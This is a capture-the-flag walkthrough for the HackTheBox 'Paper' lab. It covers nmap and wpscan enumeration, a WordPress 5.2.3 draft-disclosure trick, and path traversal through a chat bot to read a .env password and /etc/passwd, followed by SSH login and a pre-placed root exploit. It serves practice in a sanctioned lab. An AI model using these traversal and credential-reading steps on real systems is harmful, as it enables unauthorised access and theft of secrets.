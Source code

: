 # HackTheBox-Paper-Walkthrough
This is the walkthrough for Paper lab in HackTheBox (https://app.hackthebox.com/machines/Paper)
This is my first public walkthrough for a CTF. I would appriciate any contructive critism and suggestions.


This Lab/CTF focuses on Enumerating skills and LFI skills, it does not focus on Priv-Esc or other things which are unlike other CTFs.

*****
NOTES = Replace <ip<ip>> with your machine's IP and i have purposefully redacted my machine's ip with "*".
*****

## Enumerating </br>

   I used `nmap` to analyse the IP and see the active ports and services running.</br>
      
```
nmap -sC -sV <ip>
```
<pre>
nmap -sC -sV **.**.**.***
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 03:48 IST
Nmap scan report for office.paper (**.**.**.***)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: Blunder Tiffin Inc. &#8211; The best paper company in the elec...
|_http-generator: WordPress 5.2.3
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.51 seconds  
</pre>

Visited the IP in browser but it was a test website and nothing interesting.

So i decided to `curl` 
```
curl -I <IP>
```
<pre>curl -I **.**.**.***
HTTP/1.1 403 Forbidden
Date: Wed, 30 Mar 2022 22:19:52 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
</pre>
    
We notice `X-Backend-Server: office.paper`, so in order to access this lets add this our hosts list at `/etc/hosts`
```
sudo nano /etc/hosts
```
<pre>
127.0.0.1	localhost
127.0.1.1	kali
**.**.**.***    office.paper 
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
</pre>

Than i visited `office.paper` in browser and figured out it was an wordpress website as wordpress.org was mention at bottom of page and i was sure after viewing the page source.</br>

The First thing i do if i find a wordpress website is to scan it with `wpscan` to look for vulnerabilities and users.</br>
```
wpscan -e vp vt u --url http://office.paper/
```
WOOOAH we found that it was using vulnerable wordpress version 5.2.3, which was also found by nmap.


## Exploiting </br>

I went to `exploit.db` and search for `WordPress 5.2.3` and found exploit `CVE: 2019-17671`. </br>https://www.exploit-db.com/exploits/47690

We just have to put `?static=1` at end of `office.paper` to reveal secret page in browser.
```
http://office.paper/?static=1
```
Here we found that there is another host `chat.office.paper` so we also add that to our `etc/hosts`</br>
<pre>127.0.0.1	localhost
127.0.1.1	kali
**.**.**.***   office.paper  chat.office.paper
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters</pre>
Upon visiting the `chat.office.paper` and messing with it i found that the admin `DwightKSchrute` added a bot called `Recyclops`.</br>

After messing with `Recyclops` i figured out that it take certain commands as mentioned in chat but has to start with "recyclops".
</br>
`recyclops list ./` = `ls` </br>
`recyclops file ./<filename>` = `cat <filename>`</br>

Yes i did LFI by adding `./`.</br>
I did not found anything interesting using 
`recyclops list ./`
so i decided to go deeper by using
```
recyclops list ./../
```
I found `user.txt` but we didnt have permission to read it.

Their was a unusual file named "hubot", so i listed its contents using 
```
recyclops list ./../hubot/
```
I read each file content but found password in `.env` file. I used command 
```
recyclops file ./../hubot/.env
```
I have PASSWORD but no USERNAME so i listed the `/etc/passwd ` directory. Using
```
recyclops list ./../../../etc/passwd
```

We found username `dwight`.

## Gaining Access </br>
I ssh into server using credentials found. 
```
ssh dwight@<ip>
```
Enter the Password you found.</br>
Now you have remote shell access via ssh.</br>

I read user.txt
```
cat user.txt
```

## Priv-Esc</br>

This lab did not focused too much on priveledge escalation as i would assume it was about enumeration and LFI.</br>
`linpeash.sh` and `exploit.py` was already their in that directory.

You can directory run `exploit.py` to gain root access by using
```
python3 exploit.py
```
If it doesn't work, run the same command again!</br>
or 

You can run `linpeas.sh` to find vulnerablity and find online exploit and tranfer to this machine and run it but it was already given to us i.e `exploit.py`. 
To run `linpeas.sh` use command
```
./linpeash.sh
```
or 
```
bash linpeas.sh
```
</br>

Read the Root Flag  at `/root/root.txt`
```
cat /root/root.txt
```





